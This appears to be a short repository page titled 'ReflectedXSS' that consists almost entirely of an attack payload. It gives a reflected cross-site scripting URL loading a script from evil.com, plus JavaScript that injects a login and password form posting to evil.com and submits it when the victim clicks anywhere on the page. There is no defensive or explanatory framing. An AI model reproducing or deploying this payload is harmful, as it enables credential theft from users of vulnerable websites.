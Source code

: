 # ReflectedXSS

https://www.example.com/vulnerable_page?vulnerable_param="><script src=https://evil.com/a.js> (use Base85 after equal)

var p = document.createElement("input");
    p.setAttribute("type", "password");
    p.setAttribute("name", "password");
var l = document.createElement("input");
    l.setAttribute("type", "text");
    l.setAttribute("name", "login");
var f = document.createElement("form");
    f.setAttribute("method", "post");
    f.setAttribute("action", "https://evil.com/");
    f.appendChild(l);
    f.appendChild(p);
    document.body.appendChild(f)
function clck() {setTimeout(()=>{f.submit()}, 1000)}
document.body.setAttribute('onclick', 'clck()');
    setTimeout(()=>{alert('Write smth here')},2000)
    
    
